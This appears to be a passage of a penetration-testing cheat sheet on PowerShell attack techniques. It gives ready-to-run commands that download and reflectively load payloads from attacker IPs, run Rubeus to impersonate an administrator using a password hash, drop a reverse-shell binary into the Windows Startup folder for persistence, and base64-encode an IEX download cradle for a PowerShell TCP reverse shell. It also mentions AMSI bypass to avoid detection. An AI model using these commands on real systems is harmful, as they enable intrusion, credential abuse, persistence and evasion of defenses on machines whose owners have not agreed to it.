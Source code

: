 #### Load C# assembly reflectively

Ensure that the referenced class and main methods are `public` before running this. Note that a process-wide AMSI bypass may be required for this to work if the content is detected, [refer here for details](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/).

```powershell
# Download and run assembly without arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main()

# Download and run Rubeus, with arguments (make sure to split the args)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Execute a specific method from an assembly (e.g. a DLL)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

#### Download file

```powershell
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")

# Powershell 4+
## You can use 'IWR' as a shorthand
Invoke-WebRequest "http://10.10.16.7/Rev.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Rev.exe"
```

#### Encoded commands

Base64-encode a PowerShell command in the right format:

```powershell
$command = 'IEX (New-Object Net.WebClient).DownloadString("http://172.16.100.55/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```

Or, the Linux version of the above:

```bash
echo 'IEX (New-Object Net.WebClient).DownloadString("http://172.16.100.55/Invoke-PowerShellTcpRun.ps1")' | iconv -t utf-16le | base64 -w 0
```
